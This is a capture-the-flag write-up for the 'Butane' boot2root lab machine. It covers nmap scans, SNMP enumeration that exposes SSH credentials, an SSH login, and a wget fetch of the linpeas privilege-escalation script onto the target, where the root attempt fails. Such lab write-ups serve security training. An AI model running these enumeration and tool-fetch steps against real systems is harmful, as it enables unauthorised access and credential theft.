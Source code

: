 ```yaml
---
date:
  created: 2023-12-19
  updated: 2023-12-19
description: Butane Writeup
tags:
  - udp
  - snmpwalk
  - linpeas
  - lse
  - pnwkit
comments: true
---
```


# Butane

Here is a challenge on Butane, Boot2Root machine.

## Reconnaissance

`IP = 192.168.8.131`

First and foremost, doing nmap scan to gather information of the machine. We get this

```js
┌──(root㉿kali)-[/home/kali/Desktop/internship/butane]
└─# nmap -p- --min-rate 10000 192.168.8.131 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-27 03:36 EDT
Nmap scan report for butane.netbytesec.com (192.168.8.131)
Host is up (0.0011s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```

There is only one service running. I thought that the machine is not running correctly haha. So just relax... 

After a while, there is a hint said that "Why not trying the UDP". So bump into nmap UDP scan. It took some time, so we give `-vv` to make it more aggressive. 

```js
┌──(root㉿kali)-[/home/kali/Desktop/internship/butane]
└─# nmap -sU -T4 -vv 192.168.8.131
```

Output

```js
Scanned at 2023-10-27 00:17:08 EDT for 1579s
Not shown: 999 open|filtered udp ports (no-response)
PORT    STATE SERVICE REASON
161/udp open  snmp    udp-response ttl 128

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1578.88 seconds
           Raw packets sent: 2279 (106.097KB) | Rcvd: 2 (181B)
```

## Enumeration

It is snmp service running on this machine. So we go thru the SNMP hacktricks [https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp](https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp)

```js
┌──(root㉿kali)-[/home/kali/Desktop/internship/butane]
└─# snmpwalk -v 2c -c public 192.168.8.131 .1 > output.txt
```

We will be using this command to enumerate and get the machine information. We get this and there is credentials of `mike:P@55w0Rd` to log in into the SSH and the first flag.

![](/images/writeup/internship/butane/cred.PNG)

## Exploitation

We go into the SSH. Directly we got the second flag

```js
┌──(root㉿kali)-[/home/kali/Desktop/internship/butane]
└─# ssh mike@192.168.8.131                
mike@192.168.8.131's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

279 packages can be updated.
197 updates are security updates.

New release '18.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Last login: Fri Oct 27 12:46:19 2023 from 192.168.22.12
mike@butane:~$ ls
flag2.txt
mike@butane:~$ cat flag2.txt
flag{37503d2ac009c25f88f86a4961be83d0944afcd6}
```


### Privesc

To get the root I try to look on the `linpeas` and directly install into the machine because there is `wget`

```js
mike@butane:/tmp$ wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

After a few testing of privesc OS and Linux kernel. It was mission failed because there is no `gcc` install

```js
                              ╔════════════════════╗
══════════════════════════════╣ System Information ╠══════════════════════════════
                              ╚════════════════════╝
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits
Linux version 4.4.0-62-generic (buildd@lcy01-30) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017
Distributor ID:	Ubuntu
Description:	Ubuntu 16.04.2 LTS
Release:	16.04
Codename:	xenial

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.8.16
```

After trying some exploit on the public, we cannot get thru anything

